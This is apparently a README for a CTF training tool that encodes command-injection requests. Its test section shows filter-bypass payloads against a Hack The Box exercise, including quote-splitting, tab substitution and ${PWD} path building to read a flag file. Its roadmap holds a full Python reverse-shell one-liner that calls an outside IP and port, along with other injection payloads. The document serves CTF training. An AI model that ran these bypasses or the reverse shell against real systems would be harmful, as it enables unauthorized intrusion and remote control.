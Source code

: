 # Request Encoder

Request Encoder (cire) is a tool that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

#### Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```

#### Roadmap

- [ ] Add [chillhack](https://tryhackme.com/room/chillhack) to tests:

```ps
$ onectf request -u 'URL' -v -X POST -p param -v -i 'export RHOST="10.9.168.80";export RPORT=4444;python3 -c <q>import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")<q>'
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' --raw
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X POST -p 'param' --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST --json -I request.json
$ onectf request -u 'URL/FUZZ' -X GET --fuzz -H 'Cookie: session=XXX; HttpOnly; Path=/' -w uids -f json
$ onectf request -u 'URL' -v -X POST -p uid -w uids
$ onectf request -u 'URL' -v -X POST -p 'uid' -w uids -f html
$ onectf request -u 'URL' -v -X GET -p 'param' -w uids -f html --tamper base64
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
$ onectf request -u 'URL' -v -X PUT --json -I request.json
$ onectf request -u 'URL' -v -X POST --raw -I request.xml
```